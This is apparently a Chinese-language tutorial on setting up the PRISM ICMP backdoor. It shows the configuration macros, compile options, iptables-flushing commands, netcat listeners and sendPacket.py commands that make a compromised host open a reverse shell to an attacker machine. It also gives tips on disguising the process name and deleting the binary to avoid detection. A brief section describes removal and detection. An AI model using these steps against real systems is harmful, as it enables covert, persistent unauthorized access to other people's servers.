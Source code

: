 4、ICMP后门

在控制端下载脚本：git clone https://github.com/andreafabrizi/prism.git

git下来之后，还需要进行编辑操作

先编辑prism.c，修改宏定义部分：



40 #ifdef STATIC
 
41 # define REVERSE_HOST     "10.0.0.1"  //连接到主控机的IP地址
 
42 # define REVERSE_PORT     19832   //连接到主控机的端口号
 
43 # define RESPAWN_DELAY    15  //后门机尝试连接的空闲时间间隔
 
44 #else
 
45 # define ICMP_PACKET_SIZE 1024  //ICMP数据包的大小
 
46 # define ICMP_KEY         "linger"  //连接的密码
 
47 #endif
 
48
 
49 #define VERSION          "0.5"   //版本信息
 
50 #define MOTD             "PRISM v"VERSION" started\n\n# "  //后门机连接时显示的消息
 
51 #define SHELL            "/bin/sh"  //shell执行的位置
 
52 #define PROCESS_NAME     "udevd"   //创建的进程名称
交叉编译prism后门

gcc <..OPTIONS..> -Wall -s -o prism prism.c

可用的参数<OPTION>选项：

-DDETACH //后台运行

-DSTATIC //只用STATIC模式（默认是ICMP模式）

-DNORENAME //不再重命名进程名

-DIPTABLES //清除所有iptables规则表项

如：gcc -DDETACH -DNORENAME -Wall -s -o prism prism.c

编译好之后把prism上传到远程后门主机，再运行sendPacket.py脚本，需要root权限。最好就是将prism.c文件上传到后门主机再进行编译，这样更容易成功。

iptables -F
iptables -x
iptables -L

在攻击者机器上运行nc等待后门的连接：nc -l -p 6666

使用sendPacket.py脚本（或其他数据包生成器）将激活数据包发送到后门：

./sendPacket.py 192.168.30.141 123456 192.168.30.131 6666

192.168.30.141 是运行棱镜后门的受害者机器

123456是密钥

192.168.30.131是攻击者机器地址

6666是攻击者机器端口



这种后门方式对于采用了很多限制比如限制了ssh的远程服务器来说，是比较不错的，而且prism服务端运行后会在后门一直运行，除非重启服务器。所以运行后门后删除自身文件将不容易被发现。

清除方式

因为该后门重启会失效，除非写在开机启动项里，所以首先要检查启动项有没有异常情况，比如/etc/rc.local是否有未知的启动脚本

其次，这个后门可以改变后门进程名，但是还是有进程存在，所以要查出这个未知进程，可以用工具查找，kill掉

然后，该后门是使用了icmp的ping包激活的，所以可以过滤icmp包

最后，需要设置好严格的iptables规则，这个后门可以按照攻击者的设置尝试清楚iptables规则，需要定期查看iptables规则是否正常

=============================================================================================================================
　PRISM只有两个主文件，配置简单，能在Linux、Solaris、AIX、BSD/Mac、Android等多个系统上运行，支持两种工作模式：ICMP 和 STATIC 模式。

ICMP模式

　　使用这种模式的后门将会在后台等待特定的包含主机/端口连接信息的ICMP数据包，通过私有密钥可以阻止第三方访问。后门进程接受ping包激活（总不会连ping包都不让过了靶>_<）

　　首先，在攻击者的机器上运行netcat来等待后门进入的连接：

1
～$ nc -l -p 9999
 　　再使用sendPacket.py脚本（或其他数据包生成器，如nemesis-1.4）发送激活包到后门主机，以使后门主机反弹连接到主控机的指定端口：

1
2
3
4
5
./sendPacket.py 10.0.0.5 linger 10.0.0.10 9999
//10.0.0.5 远程主机（靶机）的IP地址
//linger 连接密码
//10.0.0.10 主控机IP地址
//9999 主控机连接端口
 STATIC模式

　　使用这种模式，后门主机将会主动尝试连接到指定端口的的IP地址上，所以只要在指定IP上监听指定端口等待连接就可以了。但是，缺点很明显，很任意暴露攻击者的IP地址，而且使用不够灵活。

1
$ nc -l -p [PORT]
 　　当然，作为一款迷你级的后门木马。它还是有很多优点的：

　　两种工作模式、运行时进程重命名、不会监听端口、自动清除iptables规则表、采用C语言编写（代码仅有200来行），所以不需要任何库支持。
